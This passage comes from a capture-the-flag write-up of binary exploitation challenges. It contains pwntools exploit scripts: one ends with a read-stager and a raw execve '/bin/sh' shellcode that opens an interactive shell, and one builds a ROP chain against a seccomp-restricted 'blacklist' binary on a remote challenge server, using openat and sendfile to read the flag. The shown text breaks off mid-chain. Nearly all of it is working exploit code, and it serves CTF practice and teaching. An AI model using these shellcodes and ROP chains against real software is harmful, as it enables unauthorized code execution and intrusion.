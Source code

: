 ```python
io.sendafter(">>",p.generate(settings))
io.sendlineafter(">>","gomugomunomi")
shellcode = asm(f"""
	xor  eax, eax
	mov  al,  3
	xor  ebx, ebx
	mov  ecx, {shellcode_start}
	int  0x80
	inc  ecx
	call ecx
""")
io.sendlineafter(">>",shellcode)
io.sendlineafter(">>","exit")
pause()
shellcode = "A\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
io.send(shellcode)
io.interactive()
```

# Challenge - blacklist
#
### Statically-linked binary with lots of gadgets. Buffer overflow. But there is seccomp, We can't open - write. I choose to do `openat-sendfile`. ;)
#### Exploit
```python
#!/usr/bin/python3
from pwn import *

####Addr
pop_rdi = 0x0048005d
pop_rsi = 0x004651ef
pop_rdx = 0x00401db2
pop_rax = 0x00448923
pop_rsp = 0x00473ed4
pop_rcx = 0x00401d6e
pop_r10 = 0x00401db1
syscall = 0x0046a8b5
bss = 0x4d1260


####TL;DR
"""
Statically linked binary, buffer overflow, but seccomp makes life harder. openat to open flag file, and sendfile syscall to get flag.
"""
####Exploit
#io = process(["./blacklist"])
io = remote("blacklist.fword.wtf",1236)
ROP  =  b"A"*0x48+p64(pop_rdi)+p64(0x0)+\
	p64(pop_rsi)+p64(bss)+p64(pop_rdx)+p64(0x1000)+\
	p64(pop_rax)+p64(0x0)+p64(syscall)+p64(pop_rsp)+\
	p64(bss)
io.sendline(ROP)
ROP2 =  p64(pop_rdi)+p64(0x0)+\
	p64(pop_rsi)+p64(0x4d1300)+\
	p64(pop_rdx)+p64(0x0)+\
	p64(pop_rcx)+p64(0x0)+\
	p64(pop_rax)+p64(0x101)+\
	p64(syscall)+p64(pop_rdi)+p64(0x1)+\
```